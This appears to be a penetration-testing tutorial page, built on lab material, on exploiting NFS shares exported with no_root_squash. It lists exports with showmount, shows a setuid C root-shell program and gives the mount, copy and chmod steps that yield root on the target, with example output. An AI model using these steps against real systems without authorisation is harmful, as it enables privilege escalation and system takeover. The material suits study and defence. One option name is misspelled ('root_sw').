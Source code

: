 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Weak NFS Privileges

Network File System (NFS) allows users to access shared files or directories over the network hosted on Unix/Linux systems. NFS uses TCP/UDP port 2049. Any accessible mounts can be listed remotely by issuing the command `showmount -e`, which lists the NFS server's export list (or the access control list for filesystems) that NFS clients.

{% code title="Command" %}
```bash
showmount -e 10.129.2.12
```
{% endcode %}

{% code title="Example Output" %}
```
Export list for 10.129.2.12:
/tmp             *
/var/nfs/general *
```
{% endcode %}

When an NFS volume is created, various options can be set:

**root\_sw**

If the root user is used to access NFS shares, it will be changed to the nfsnobody user, which is an unprivileged account. Any files created and uploaded by the root user will be owned by the nfsnobody user, which prevents an attacker from uploading binaries with the SUID bit set.

**no\_root\_squash**

Remote users connecting to the share as the local root user will be able to create files on the NFS server as the root user. This would allow for the creation of malicious scripts/programs with the SUID bit set.

{% code title="Command" %}
```bash
cat /etc/exports
```
{% endcode %}

{% code title="Example Output" %}
```bash
# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
```
{% endcode %}

For example, we can create a SETUID binary that executes `/bin/sh` using our local root user. We can then mount the `/tmp` directory locally, copy the root-owned binary over to the NFS server, and set the SUID bit.

First, create a simple binary, mount the directory locally, copy it, and set the necessary permissions.

{% code title="Command" %}
```bash
cat shell.c 
```
{% endcode %}

{% code title="Example Output" %}
```bash
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```
{% endcode %}

{% code title="Command" %}
```bash
gcc shell.c -o shell
```
{% endcode %}

From the attacker machine:

{% code title="Attacker Machine" %}
```shell-session
kali@kali:~$ sudo mount -t nfs 10.129.2.12:/tmp /mnt
kali@kali:~$ cp shell /mnt
kali@kali:~$ chmod u+s /mnt/shell
```
{% endcode %}

When we switch back to the host's low privileged session, we can execute the binary and obtain a root shell.

{% code title="Target Machine" %}
```shell-session
user@target:/tmp$  ls -la

total 68
drwxrwxrwt 10 root  root   4096 Sep  1 06:15 .
drwxr-xr-x 24 root  root   4096 Aug 31 02:24 ..
drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .font-unix
drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .ICE-unix
-rwsr-xr-x  1 root  root  16712 Sep  1 06:15 shell
<SNIP>
```
{% endcode %}

{% code title="Target Machine" %}
```shell-session
user@target:/tmp$ ./shell
root@target:/tmp# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(htb)
```
{% endcode %}
